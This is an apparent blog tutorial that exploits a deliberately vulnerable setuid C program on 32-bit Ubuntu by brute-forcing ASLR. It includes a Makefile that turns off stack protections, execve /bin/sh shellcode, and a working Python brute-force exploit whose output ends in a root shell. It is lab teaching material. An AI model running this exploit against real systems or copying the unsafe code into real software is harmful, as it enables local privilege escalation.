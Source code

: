 ```yaml
---
layout: post
title: Exploiting Simple Buffer Overflow (2) --- Shellcode + ASLR Bruteforcing
comments: true
---
```


Hi! For my second article on exploiting simple buffer overflow, I want to talk about bruteforcing against ASLR (Address Space Layout Randomization). For those who are not so familiar with ASLR, it is a common countermeasure technique against traditional stack-based stack buffer overflow exploit--- it randomizes the memory address layout (e.g. stack) every time a program is run so that an attacker cannot know the exact location of shellcode/variable/etc beforehand.
It is enabled by default for most recent operation systems, and it is fairly effective for 64-bit systems (the range of randomization of address layout is 28-bit). However, for 32-bit systems, the range of randomization of address layout is so much smaller that bruteforcing is feasible.  
So, in this article, I will demonstrate a bruteforce against ASLR in 32-bit system, so that an arbitrary shellcode can be run. Note that other countermeasure techniques (e.g. DEP, Canary) are not used for the sake of simplicity in this experiment. (I promise that I will post about attacks against these techniques in the future!) Also, source code used in this article can be downloaded from [here](https://github.com/taishi8117/bof_lab/tree/master/bof).  

-------------------

I will use Ubuntu 14.04 32-bit for this experiment.  

```
canopus@canopus:~/bof_lab/bof|master
⇒  uname -a
Linux canopus 3.16.0-50-generic #67~14.04.1-Ubuntu SMP Fri Oct 2 22:08:53 UTC 2015 i686 i686 i686 GNU/Linux
canopus@canopus:~/bof_lab/bof|master
⇒  lsb_release -a
No LSB modules are available.
Distributor ID:	Ubuntu
Description:	Ubuntu 14.04.3 LTS
Release:	14.04
Codename:	trusty
canopus@canopus:~/bof_lab/bof|master
⇒  gcc --version
gcc (Ubuntu 4.8.4-2ubuntu1~14.04) 4.8.4
Copyright (C) 2013 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.  There is NO
warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
```

And here is a simple vulnerable program that I will use. As you can see, `vuln()` function has a buffer overflow vulnerability when `strcpy` is called.  

```C
#include    <stdio.h>
#include    <stdlib.h>
#include    <assert.h>
#include	<string.h>


void vuln (const char* arg){
	char buffer[100];
	strcpy(buffer, arg);
	printf("Hello %s\n", buffer);
	printf("[+] buffer @ %p\n", buffer);
}

int main (int argc, char **argv){
	
	if (argc != 2) {
		printf("Usage: %s <buffer>\n", argv[0]);
		exit(1);
	}
	vuln(argv[1]);
		return 0;
}
```

And for Makefile, make sure that `-fno-stack-protector` and `-z execstack` are included in the flags.  

```
CC=gcc
CFLAGS=-std=c99 -Wall -fno-stack-protector -z execstack

all: bof

bof: bof.o
	$(CC) $(CFLAGS) -o $@ $^
	sudo chown 0:0 $@
	sudo chmod u+s $@

bof.o: bof.c

clean:
	rm bof.o bof
```

After it was compiled, make sure that ASLR is turned on.  

```
canopus@canopus:~/bof_lab/bof|master⚡
⇒  echo 1 | sudo tee /proc/sys/kernel/randomize_va_space
1
canopus@canopus:~/bof_lab/bof|master⚡
⇒  gdb -q ./bof
Reading symbols from ./bof...(no debugging symbols found)...done.
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
```


Okay, let's check how ASLR affects the address of buffer every time it is run.  

```
canopus@canopus:~/bof_lab/bof|master⚡
⇒  ./bof AAAA
Hello AAAA
[+] buffer @ 0xbfe9a8fc
canopus@canopus:~/bof_lab/bof|master⚡
⇒  ./bof AAAA
Hello AAAA
[+] buffer @ 0xbfb43e4c
canopus@canopus:~/bof_lab/bof|master⚡
⇒  ./bof AAAA
Hello AAAA
[+] buffer @ 0xbf8c941c
```

As you can see, the location of `buffer` is randomized every time the program is run, and it is impossible to guess its exact location for the next execution. However, if you examine the location of buffer repeatedly, you will realize that its location is within the range of `0xbf*****c`. In this case, there are 1048576 possible locations where buffer is loaded.  

Let's also examine how the program behaves when its buffer is overflowed.  

```
canopus@canopus:~/bof_lab/bof|master⚡
⇒  gdb -q ./bof
Reading symbols from ./bof...(no debugging symbols found)...done.
gdb-peda$ pattern_create 120
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAA'
gdb-peda$ run 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAA'
Starting program: /home/canopus/bof_lab/bof/bof 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAA'
Hello AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAA
[+] buffer @ 0xbf991ccc

Program received signal SIGSEGV, Segmentation fault.
(...)

gdb-peda$ pattern_search
Registers contain pattern buffer:
EIP+0 found at offset: 112		(<== offset: 112)
EBP+0 found at offset: 108
(...)

gdb-peda$ p $eip
$1 = (void (*)()) 0x41384141
```

As you can see, 4 bytes starting from 112th character in the input string will overwrite EIP.   

Now, we have everything that's needed to exploit this program. 


Let's also write a shellcode that executes '/bin/sh' so you can get a shell. I will not explain the details of how to write shellcode, but there are lots of resources on the web that you can find very useful.  

```Assembly
global _start

section .text

_start:
	xor eax, eax
	push eax

	push 0x68732f2f		;//sh
	push 0x6e69622f		;/bin
	mov ebx, esp		;moving the pointer to "/bin//sh" to ebx

	push eax			;push 0 (=eax)
	mov edx, esp		;moving 0 to edx

	push ebx
	mov ecx, esp		;moving the pointer to "/bin//sh" to ecx

	mov al, 11
	int 0x80			;execv syscall
```

This assembly code is assembled and converted to string as shown in the script below (stored in shellcode variable).

```Python
#!/usr/bin/python

import struct, sys, time
from subprocess import PIPE, Popen

# exec /bin/sh
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

bufsize = 100
offset = 12     #incl. saved ebp
nopsize = 4096

def prep_buffer(addr_buffer):
    buf = "A" * (bufsize+offset)
    buf += struct.pack("<I",(addr_buffer+bufsize+offset+4))
    buf += "\x90" * nopsize
    buf += shellcode
    return buf

def brute_aslr(buf):
    p = Popen(['./bof', buf]).wait()

if __name__ == '__main__':
    addr_buffer = 0xbf92b39c    # randomly decided
    buf = prep_buffer(addr_buffer)
    i = 0
    while True:
        print i
        brute_aslr(buf)
        i += 1
```

```
canopus@canopus:~/bof_lab/bof|master⚡
⇒  python exploit.py
(...)
(...)

[+] buffer @ 0xbfc2bc0c
996
(... snippet)

[+] buffer @ 0xbfb9930c
997
(... snippet)

[+] buffer @ 0xbf92721c
998
(... snippet)

[+] buffer @ 0xbf92a26c
# whoami
root
```
